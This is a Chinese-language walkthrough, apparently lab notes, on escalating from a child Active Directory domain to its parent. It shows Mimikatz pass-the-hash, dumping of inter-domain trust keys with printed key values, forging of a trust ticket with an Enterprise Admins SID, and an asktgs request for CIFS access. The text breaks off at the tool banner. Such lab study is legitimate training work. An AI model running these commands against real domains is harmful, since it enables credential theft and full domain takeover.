 # 子域到父域 （一）(CIFS，访问文件系统)

假设已经知道DA管理员Administrator的哈希
```
Administrator: af0686cc0ca8f04df42210c9ac980760
```
打开一个具有DA权限的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:powershell.exe"'
```


在DA权限的shell下枚举所有Trust tikets
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc

Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-280534878-1496970234-700767426)
 [  In ] DOLLARCORP.MONEYCORP.LOCAL -> MONEYCORP.LOCAL
    * 1/23/2022 11:37:21 PM - CLEAR   - 28 62 25 ae 13 68 18 ad e4 4f b2 7c 22 64 22 9d 8f f7 ac c3 0e 24 2b 09 00 50 4b 35
        * aes256_hmac       ff3616ac06c24395fb76b08d7cc7f0038cd257869b43eb13ebaf9a3061929a1e
        * aes128_hmac       a2ab6e6daf483e61ed6ffa50856ad277
        * rc4_hmac_nt       13d28ca9e5863231c89eda2b2b1756d7
```

伪造一条到父域```moneycorp.local```的TGT

从上面信息我们得知，父域的SID是：```S-1-5-21-280534878-1496970234-700767426```

这里需要注意下面命令参数里的rc4，必须是上面枚举出来的
```* rc4_hmac_nt       13d28ca9e5863231c89eda2b2b1756d7```这个值

不能使用Administrator的NTML

伪造TGT
```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:13d28ca9e5863231c89eda2b2b1756d7 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\kekeo_old\trust_tkt.kirbi"'
```


TGT文件已保存到```C:\AD\kekeo_old\trust_tkt.kirbi```

制作一张可以访问父域moneycorp.local的TGS

```
PS C:\ad\kekeo_old> .\asktgs.exe C:\AD\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local

  .#####.   AskTGS Kerberos client 1.0 (x86) built on Dec  8 2016 00:31:13
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com                      (oe.eo)
  '#####'                                                     * * */
